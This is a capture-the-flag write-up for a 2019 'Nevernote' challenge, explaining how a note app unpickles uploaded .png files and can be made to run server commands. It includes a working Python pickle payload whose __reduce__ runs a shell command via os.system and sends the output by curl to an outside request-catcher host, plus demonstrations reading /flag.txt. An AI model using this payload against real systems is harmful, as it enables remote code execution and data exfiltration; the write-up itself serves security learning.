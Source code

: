 *Never unpickle data received from an untrusted source*

Basically our Note object will be instantiated, and the file name will be the hash it creates + .png at the end. Then our object hits the save_note() function which saves it TWICE, once with a .pickle extension and the it saves only the image with the .png extension. Meaning our images goes through the unpickle function as is, we can have the server unpickle whatever we want! Meaning we can pickle commands and have them executed on the server.

So we need a pickled payload, that saves onto the server, then we make a get request to our .png image, that will hit the unpickle function in the code and get RCE.

I wrote an exploit that accepts a command, and makes a POST request to requestcatcher (https://requestcatcher.com/) with the the data its sending being the command!
Then it pickles the object and saves it to a .png file.


```python
import cPickle
import os
import sys

class makePayload(object):
    def __reduce__(self):
        command = "curl -X POST -d $(" + comm + ") https://saint.requestcatcher.com/nevernote"
        return (os.system, (command,))

comm = sys.argv[1]
payload = cPickle.dumps(makePayload())
badImage = open("bad.png", "w")
badImage.write(payload)
```

Let me demonstrate:

<img src="https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernotePickle/images/image5.png">

bad.png has been created, Then we can start up request catcher!

<img src="https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernotePickle/images/image6.png" width=400>

And now lets create a note with the bad.png

<img src="https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernotePickle/images/image7.png">

Now we need to remove the .pickle it is showing us and view the .png file, this is what will execute our code!

And done! Our png just executed the `whoami` command and we got a reply of 'chal'!

<img src="https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernotePickle/images/image8.png"><br><br>

Now lets do another one with `cat /flag.txt`!!


<img src="https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernotePickle/images/image9.png"><br>


Flag: `flag{you_had_to_have_known_this_flag_would_have_pickle_rick_in_it}`

